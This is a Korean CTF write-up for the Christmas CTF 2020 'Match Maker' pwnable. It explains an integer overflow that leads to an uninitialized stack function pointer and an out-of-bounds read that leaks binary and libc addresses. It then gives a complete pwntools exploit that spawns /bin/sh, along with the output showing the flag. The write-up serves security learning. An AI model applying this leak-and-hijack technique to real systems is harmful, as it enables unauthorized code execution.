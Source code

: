 ```yaml
---

title: "[Write-Up] Christmas CTF 2020 - Match Maker"
author: Fabu1ous
tags: [Fabu1ous, pwnable, oob, uninitialized stack, integer overflow]
categories: [Write-Up]
date: 2020-12-29 21:00:00
cc: true
index_img: /2020/12/29/fabu1ous/match-maker/8.png
---
```


# 문제 개요

![](match-maker/1.png)

1. 프로필을 만듭니다.
   * 이름, 나이, 성별, 취미를 입력
   * 나이 정보에 따라 파트너 매칭 함수가 달라짐

1. 만든 프로필을 저장합니다.

   - 만들어진 프로필을 힙에 저장
   - 성별을 구분하여 전역 배열에 힙 주소 저장.

2. 파트너 매칭을 합니다.

3. 매칭 된 파트너의 정보를 출력합니다.

4. 유저 리스트를 출력합니다.

   - 현재 프로필이 남자면 여자 리스트를 출력
   - 현재 프로필이 여자면 남자 리스트를 출력

   

# 풀이 요약

find match 기능에서 사용할 알고리즘을 정하는 로직이 존재합니다. pref_min_age != pref_max_age이면서 pref_min_age ^ 2 == pref_max_age ^ 2 일 때 초기화되지 않은 스택의 쓰레기 값으로 rip를 조작할 수 있습니다. int-overflow를 활용하면 됩니다.

show user list 기능에서 user list를 참조할 때 sex ^1을 index로 사용합니다. 프로필 작성 시 성별 입력값에 제한이 없기 때문에 이를 이용해 바이너리 base주소와 libc base 주소를 얻을 수 있습니다.



# 취약점

* int overflow → uninitialized stack

![](match-maker/2.png)

프로필 생성 메뉴에서 입력받은 나이 정보를 토대로 파트너 매칭 루틴을 정하는 코드입니다. if...else가 아닌 if...if 이므로 integer overflow를 발생시켜 `(void*)func()`의 값을 스택에 있던 쓰레기 값으로 설정할 수 있습니다.

![](match-maker/3.png)

연상 혹은 연하 중 선호하는 쪽을 계산하는 루틴에서 절댓값을 사용합니다. 입력할 수 있는 나이에 최댓값 제한이 없기 때문에 int overflow를 발생시켜 스택 변수 `(void*)func()를` 초기화하는 작업을 건너뛸 수 있습니다.

![](match-maker/4.png)

`(void*)func()`값에 영향을 미치는 쓰레기 값은 name을 입력받을 때 사용하던 버퍼입니다.

![](match-maker/5.png)

메인 메뉴에서 find match를 선택하면 rip가 잡히는 것을 확인할 수 있습니다.



* out of bound read

![](match-maker/6.png)

성별은 int로 입력받습니다.

0 : 남자

1 : 여자

![](match-maker/7.png)

현재 프로필이 남자면 여자 유저 리스트를, 여자면 남자 리스트를 출력해주는 함수입니다. 0도 1도 아닌 다른 값을 성별로 입력하면 oob-read가 가능합니다. binary의 base주소, libc의 base주소를 leak 할 수 있습니다.



# Exploit

```python
from pwn import*

p = process('./match')

#gdb.attach(p)
#context.log_level='debug'

def make(age, name, Pmin, Pmax, sex):
	p.sendlineafter('> ', '0')
	p.sendlineafter('age: ', age)
	p.sendlineafter('name: ', name)
	p.sendlineafter('min age limit for you: ', Pmin)
	p.sendlineafter('max age limit for you: ', Pmax)
	p.sendlineafter('> ', sex)
	p.sendlineafter('enter hobby 1 : ', '1')
	p.sendlineafter('enter hobby 2 : ', '2')
	p.sendlineafter('enter hobby 3 : ', '3')
	
def save():
	p.sendlineafter('> ', '1')
	
def find():
	p.sendlineafter('> ', '2')
	
def showL():
	p.sendlineafter('> ', '4')

# leak bin base
make('65536', b'A'*16+b'BBBBBBBB', '0', '196608', '-2')
showL()
p.recvuntil('[potential partners]\\n0. ')
leak = u64(p.recv(6)+b'\\x00\\x00')
bin_base = leak - 0x5008
log.info(hex(bin_base))

# leak read@libc
make('65536', p64(bin_base+0x4fa0)+b'BBBBBBBBCCCCCCCC', '0', '196608', '23')
save()
showL()
p.recvuntil('[potential partners]\\n0. ')
leak = u64(p.recv(6)+b'\\x00\\x00')
system = leak - 0xbbd20
log.info(hex(system))

make('65536', b'/bin/sh;'+b'B'*8+p64(system), '0', '196608', '23')
find()

p.interactive()
```

```plain
[+] Opening connection to localhost on port 1234: Done
[*] 0x55ad3a345000
[*] 0x7f414a9ec410
[*] Switching to interactive mode
$ cat flag
XMAS{1_d0n7_w4nna_kn0w_who'5_tak1ng_U_h0me}
```

